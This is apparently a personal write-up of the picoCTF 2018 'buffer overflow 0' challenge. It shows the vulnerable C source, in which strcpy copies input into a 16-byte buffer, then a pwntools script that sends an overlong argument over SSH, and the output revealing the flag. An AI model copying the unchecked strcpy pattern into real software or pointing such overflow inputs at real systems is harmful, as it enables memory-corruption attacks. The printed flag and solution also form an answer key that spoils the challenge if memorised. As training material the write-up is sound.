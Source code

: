 # Binary Exploitation

### **buffer overflow 0 - Points: 150 - \(Solves: 10339\)Binary Exploitation - Unsolved**

> Let's start off simple, can you overflow the right buffer in this [program](https://2018shell.picoctf.com/static/bacf5fae929ccfce6eacdc51cfad3031/vuln) to get the flag? You can also find it in /problems/buffer-overflow-0\_3\_d5263c5219b334339c34ac35c51c4a17 on the shell server. [Source](https://2018shell.picoctf.com/static/bacf5fae929ccfce6eacdc51cfad3031/vuln.c).  
> Hint:   
> How can you trigger the flag to print?  
> If you try to do the math by hand, maybe try and add a few more characters. Sometimes there are things you aren't expecting.

vuln.c contents:

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <signal.h>

#define FLAGSIZE_MAX 64

char flag[FLAGSIZE_MAX];

void sigsegv_handler(int sig) {
  fprintf(stderr, "%s\n", flag);
  fflush(stderr);
  exit(1);
}

void vuln(char *input){
  char buf[16];  strcpy(buf, input);
}

int main(int argc, char **argv){

  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("Flag File is Missing. Problem is Misconfigured, please contact an Admin if you are running this on the shell server.\n");
    exit(0);
  }
  fgets(flag,FLAGSIZE_MAX,f);
  signal(SIGSEGV, sigsegv_handler);

  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  if (argc > 1) {    vuln(argv[1]);
    printf("Thanks! Received: %s", argv[1]);
  }  else
    printf("This program takes 1 argument.\n");
  return 0;}
```

One way was to run the program and pass a really long \(supposedly at least 28 bytes\) string and it will print the flag on the server. Another method I wanted to use was pwntool because it gave me an opportunity to learn about the this popular program.

```c
from pwn import *

username = "tokumeipoh"

input = 'a' * 28

connection = ssh(host="2018shell.picoctf.com", user=username, password="{password}")

py = connection.run("cd /problems/buffer-overflow-0_3_d5263c5219b334339c34ac35c51c4a17; ./vuln {}".format(input))

print(py.recv())
connection.close()
```

Shell results:

```text
poh@pohSurface:/mnt/d/pradagy/projects/ctf/pico2018/buffer overflow 0$ python3 try.py 
[+] Connecting to 2018shell.picoctf.com on port 22: Done
[*] tokumeipoh@2018shell.picoctf.com:
    Distro    Ubuntu 16.04
    OS:       linux
    Arch:     amd64
    Version:  4.4.0
    ASLR:     Enabled
[+] Starting remote process '/bin/bash' on 2018shell.picoctf.com: pid 130175
b'picoCTF{ov3rfl0ws_ar3nt_that_bad_2d11f6cd}\n'
[*] Stopped remote process 'bash' on 2018shell.picoctf.com (pid 130175)
```

